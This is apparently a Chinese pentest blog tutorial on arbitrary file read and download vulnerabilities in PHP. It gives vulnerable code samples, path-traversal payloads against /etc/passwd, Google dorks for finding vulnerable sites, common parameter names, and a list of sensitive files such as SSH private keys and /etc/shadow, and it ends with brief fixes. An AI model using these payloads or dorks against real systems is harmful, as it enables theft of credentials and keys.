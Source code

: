 +++
date = "2016-07-27T23:25:18+08:00"
description = ""
draft = false
tags = ["信息泄露"]
title = "任意文件查看与下载漏洞"
topics = ["Pentest"]

+++

### 0x00 漏洞介绍
> ```
一些网站由于业务需求，往往需要提供文件查看或文件下载功能，但若对用户查看或下载的文件
不做限制，则恶意用户就能够查看或下载任意敏感文件，这就是文件查看与下载漏洞
```

### 0x01 利用条件
> ```
* 存在读文件的函数
* 读取文件的路径用户可控且未校验或校验不严
* 输出了文件内容
```

### 0x02 漏洞危害
> ```
下载服务器任意文件，如脚本代码、服务及系统配置文件等
可用得到的代码进一步代码审计，得到更多可利用漏洞
```

### 0x03 任意文件读取
> 代码形式可如下几种：
```php
<?php
    $filename = "test.txt";
    readfile($filename);
?>

<?php
    $filename = "test.txt";

    $fp = fopen($filename,"r") or die("Unable to open file!");
    $data = fread($fp,filesize($filename));
    fclose($fp);

    echo "<pre>";
        print_r(htmlspecialchars($data));
    echo "</pre>";
?>

<?php
    $filename = "test.txt";
    $data = file_get_contents($filename);

    echo "<pre>";
        print_r(htmlspecialchars($data));
    echo "</pre>";
?>
```

### 0x04 任意文件下载
> 直接下载：
```
<a href="http://www.xx.com/a.zip">Download</a>
```
用header()下载：
```php
<?php
    $filename = "uploads/201607141437284653.jpg";

    header('Content-Type: imgage/jpeg');
    header('Content-Disposition: attachment; filename='.$filename);
    header('Content-Lengh: '.filesize($filename));
    readfile($filename);
?>
```

### 0x05 漏洞利用代码
> ```php
readfile.php?file=/etc/passwd
readfile.php?file=../../../../../../../../etc/passwd
readfile.php?file=../../../../../../../../etc/passwd%00
```

### 0x06 Google search
> ```
inurl:"readfile.php?file="
inurl:"read.php?filename="
inurl:"download.php?file="
inurl:"down.php?file="
等等...
```

### 0x07 漏洞挖掘
> ```
可以用Google hacking或Web漏洞扫描器
从链接上看，形如：
    • readfile.php?file=***.txt
    • download.php?file=***.rar
从参数名看，形如：
    • &RealPath= 
    • &FilePath= 
    • &ﬁlepath= 
    • &Path= 
    • &path= 
    • &inputFile= 
    • &url= 
    • &urls= 
    • &Lang= 
    • &dis= 
    • &data= 
    • &readﬁle= 
    • &ﬁlep= 
    • &src= 
    • &menu= 
    • META-INF 
    • WEB-INF
```

### 0x08 敏感文件如下
> ```
Windows：
    C:\boot.ini  //查看系统版本
    C:\Windows\System32\inetsrv\MetaBase.xml  //IIS配置文件
    C:\Windows\repair\sam  //存储系统初次安装的密码
    C:\Program Files\mysql\my.ini  //Mysql配置
    C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root
    C:\Windows\php.ini  //php配置信息
    C:\Windows\my.ini  //Mysql配置信息
    ...
Linux：
    /root/.ssh/authorized_keys
    /root/.ssh/id_rsa
    /root/.ssh/id_ras.keystore
    /root/.ssh/known_hosts
    /etc/passwd
    /etc/shadow
    /etc/my.cnf
    /etc/httpd/conf/httpd.conf
    /root/.bash_history
    /root/.mysql_history
    /proc/self/fd/fd[0-9]*(文件标识符)
    /proc/mounts
    /porc/config.gz
```

### 0x09 漏洞验证
> ```
• index.php?f=../../../../../../etc/passwd 
• index.php?f=../index.php 
• index.php?f=ﬁle:///etc/passwd
注：当参数f的参数值为php文件时，若是文件被解析则是文件包含漏洞，
    若显示源码或提示下载则是文件查看与下载漏洞
```

### 0x0A 修复方案
> ```
* 过滤点(.)，使用户在url中不能回溯上级目录
* 正则严格判断用户输入参数的格式
* php.ini配置open_basedir限定文件访问范围
```
